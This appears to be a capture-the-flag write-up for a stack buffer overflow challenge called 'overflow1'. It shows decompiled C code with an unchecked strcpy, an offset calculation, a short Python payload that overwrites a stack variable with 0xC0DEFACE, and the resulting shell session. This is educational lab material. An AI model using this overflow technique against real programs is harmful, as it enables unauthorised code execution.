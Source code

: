 ### S0lv3d by H4yicl3

Try to download it 


I use IDA to analysis the code
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  if ( argc > 1 )
    vuln((char *)argv[1]);
  return 0;
}
int __cdecl vuln(char *src)
{
  int result; // eax@2
  char dest; // [sp+1Ch] [bp-1Ch]@1
  int v3; // [sp+2Ch] [bp-Ch]@1

  v3 = 0;
  strcpy(&dest, src);
  if ( v3 == 0xC0DEFACE )	<----- modify v3 to 0xc0deface ! we have shell
    result = give_shell();
  else
    result = printf("The secret is %x\n", v3);
  return result;
}
```

double click dest and v3 to find the offset in IDA
```
-0000001C dest            db ?
-0000000C var_C           dd ?
```
offset = 0x1c -0xC = 0x10 =16

try to modify v3 to 0xc0deface
```
padding ="A"*16
v3 = "\xce\xfa\xde\xc0"
print padding +v3
```

try run it
```
./overflow1 $(python overflow1.py)
$ whoami
hayicle
$ 
```

well done
